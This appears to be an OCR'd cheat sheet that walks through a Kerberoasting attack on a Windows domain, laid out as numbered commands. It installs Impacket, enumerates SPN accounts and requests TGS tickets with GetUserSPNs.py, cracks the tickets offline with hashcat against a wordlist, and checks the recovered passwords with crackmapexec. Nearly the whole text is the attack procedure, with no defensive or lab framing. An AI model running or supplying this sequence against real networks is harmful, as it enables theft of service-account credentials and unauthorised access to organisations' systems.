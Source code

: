 ### **STEP 1: SETUP IMPACKET TOOLS**

1.  Clone the Impacket repository:  
    `git clone https://github.com/SecureAuthCorp/impacket.git`
2.  Navigate to the Impacket directory:  
    `cd impacket`
3.  Install Impacket using pip:  
    `sudo python3 -m pip install .`

### **STEP 2: LISTING ACCOUNTS AND REQUESTING TGS TICKETS**

2.  Listing SPN Accounts  
    `GetUserSPNs.py -dc-ip [DC-IP] [DOMAIN]/[USERNAME]`
3.  Requesting TGS Tickets  
    `GetUserSPNs.py -dc-ip [DC-IP] [DOMAIN]/[USERNAME] -request`

### **STEP 3: REQUESTING SPECIFIC TGS TICKETS AND SAVING TO FILE**

4.  Requesting a Specific TGS Ticket  
    `GetUserSPNs.py -dc-ip [DC-IP] [DOMAIN]/[USERNAME] -request-user [SPN-USERNAME]`
5.  Saving TGS Tickets to a File  
    `GetUserSPNs.py -dc-ip [DC-IP] [DOMAIN]/[USERNAME] -request-user [SPN-USERNAME] -outputfile [OUTPUT-FILE]`

### **STEP 4: CRACKING TGS TICKETS AND CONFIRMING ACCESS**

6.  Cracking TGS Tickets Offline  
    `hashcat -m 13100 [TGS-FILE] /usr/share/wordlists/rockyou.txt`
7.  Confirm access with the cracked credentials:  
    `crackmapexec smb [DC-IP] -u [USERNAME] -p [PASSWORD]`